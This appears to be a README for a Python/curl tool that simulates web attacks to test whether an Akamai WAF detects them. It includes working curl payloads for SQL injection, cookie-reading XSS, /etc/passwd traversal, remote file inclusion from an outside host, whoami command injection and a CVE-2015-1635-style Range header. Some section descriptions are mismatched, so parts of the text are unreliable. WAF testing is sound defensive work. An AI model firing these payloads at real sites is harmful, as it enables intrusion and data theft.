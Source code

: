 # Akamai Bot Attacker

## 0x01. How It Works

- Send request with python `requests`.

## 0x02. Python Package

- requests

## 0x03. How To Use

1. create an alias in shell rc/profile:

    ``` bash
    alias akattack="python3 ${AK_TOOLS_HOME}/05_bot_attacker/python/bot_attacker.py"
    ```

2. Reopen the terminal.
3. Using following command to run the script.

    ``` bash
    akattack
    ```

## 0x04. Attack Type

### 1. Web Attack Tool

Identifies common application-level attack tools including vulnerability scanning, exploit tools and DoS programs like Pandora, Drive, LOIC, and Hulk.

Sample Attack Simulation:
This is an example request with a User-Agent string value of a well-known open source web application vulnerability scanner. You shouldn’t run attack simulations when the Penalty Box is set to Deny.

``` Bash
curl -D - -s "http://${HOSTNAME}/" --user-agent "w3af.sourceforge.net"
```

### 2. Web Protocal Attack

Identifies errors and anomalies related to the HTTP protocol including request body parsing errors and RFC violations like required request headers that are missing.

Sample Attack Simulation:
This is an example request where the Content-Type header specifies the request body content is “xml”, but doesn’t pass the data in XML format. You shouldn’t run attack simulations when the Penalty Box is set to Deny.

``` Bash
curl -D - -s "http://${HOSTNAME}/" --header "Content-Type: application/xml" --data "not_xml_format"
```

### 3. SQL Injection

Identifies database attack payloads, including those used during the initial reconnaissance phase of an attack session to enumerate database details, as well as data exfiltration attempts and timing-based enumerations. The group evaluates incoming payloads using a library of attack fingerprints that our security research team updates continuously.

### 4. Sample Attack Simulation

This is an example SQLi attack that attempts to enumerate the database version in use. You shouldn’t run attack simulations when the Penalty Box is set to Deny.

``` Bash
curl -D - -s "http://${HOSTNAME}/?fakeparam=-1%20UNION%20ALL%20SELECT%20%40%40version%2C2%2C3--"
```

### 5. Cross-Site Scripting

Blocks proof-of-concept attacks that attempt to identify exploit vectors, JavaScript event handler invocations, and attempts to access sensitive DOM objects.

Sample Attack Simulation:
This is an example XSS attack that attempts to trigger the JavaScript prompt function and display the current user’s cookie information. You shouldn’t run attack simulations when the Penalty Box is set to Deny.

``` Bash
curl -D - -s "http://${HOSTNAME}/?fakeparam=data%22%3E%3Cscript%3Eprompt%28document.cookie%29%3C%2Fscript%3E"
```

### 6. Local File Inclusion

``` Bash
curl -D - -s "http://${HOSTNAME}/?fakeparam=.././.././../etc/passwd"
```

### 7. Remote File Inclusion

Identifies attacks including directory traversals, as well as attempts to access sensitive application configuration and operating system files.

Sample Attack Simulation:
This is an example LFI attack that attempts to directory traversal to access the operating system’s password file. You shouldn’t run attack simulations when the Penalty Box is set to Deny.

``` Bash
curl -D - -s "http://${HOSTNAME}/?fakeparam=http://cirt.net/rfiinc.txt"
```

### 8. Command Injection

Identifies attempts to access and execute application-level and operating system commands including PHP code injection and web Bash/backdoor upload attempts.

Sample Attack Simulation:
This is an example CMDi attack that attempts to use the “whoami” operating system command to identify which user the web server application is running as. You shouldn’t run attack simulations when the Penalty Box is set to Deny.

``` Bash
curl -D - -s "http://${HOSTNAME}/?fakeparam=something;/bin/whoami"
```

### 9. Web Platform Attack

Identifies attacks against the software platforms (including cloud, web and application-layers) that are not categorized in other attack groups.

Sample Attack Simulation:
This is an example request that specifies a Range request header payload similar to CVE-2015-1635. You shouldn’t run attack simulations when the Penalty Box is set to Deny.

``` Bash
curl -D - -s "http://${HOSTNAME}/" --header "Range: 18446744073709551615"
```
